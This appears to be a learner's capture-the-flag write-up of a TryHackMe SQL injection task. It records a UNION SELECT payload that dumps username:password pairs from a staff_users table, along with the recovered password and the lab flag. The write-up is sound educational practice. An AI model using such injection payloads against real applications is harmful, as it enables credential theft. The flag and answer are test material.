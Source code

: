 # Level 1 – Error-Based SQLi (Task 5)

**Date recorded:** 2025-09-24

**Lab Objective:** Enumerate usernames and passwords from the `staff_users` table using Error-Based SQLi.

**SQL Query executed:**

0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users


**Result / Notes:**

- Retrieved concatenated username:password values from staff_users.
- Performed in a safe TryHackMe lab environment.
- Error-based SQLi allowed enumeration of the table.

**Recovered Data:**

Password: pa$$word

Flag: THM{SQL_INJECTION_3840}

**Screenshot:**
![Level 1 Error-Based SQLi](./sqli-screenshots/level1/2025-09-24-Error-Based-SQLi.png)



**What I Learned:**
- How Error-Based SQLi works and how SQL errors can leak database information.
- Using UNION SELECT to extract multiple columns from a table.
- Importance of safe lab environments to practice SQLi without affecting real systems.